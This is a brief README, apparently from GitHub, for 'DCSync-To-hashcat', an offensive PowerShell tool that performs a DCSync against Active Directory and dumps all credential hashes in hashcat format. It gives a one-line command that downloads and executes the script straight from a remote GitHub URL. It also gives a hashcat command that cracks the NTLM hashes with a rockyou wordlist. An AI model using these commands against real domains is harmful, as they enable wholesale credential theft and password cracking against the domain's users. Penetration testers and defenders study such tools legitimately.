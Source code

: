 # DCSync-To-hashcat
Performs DCSync, extracts all hashes in a hashcat friendly format

Execute from GitHub:

```
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/The-Viper-One/DCSync-To-Hashcat/main/DCSync-To-hashcat.ps1)
```

![image](https://user-images.githubusercontent.com/68926315/222810211-d14f53eb-aff3-42ff-919a-0f123308ddb6.png)

# hashcat

The results can be copied over to file and run againt Hashcat
```
hashcat -a 0 -m 1000 hashes Wordlists/rockyou2021.txt
```
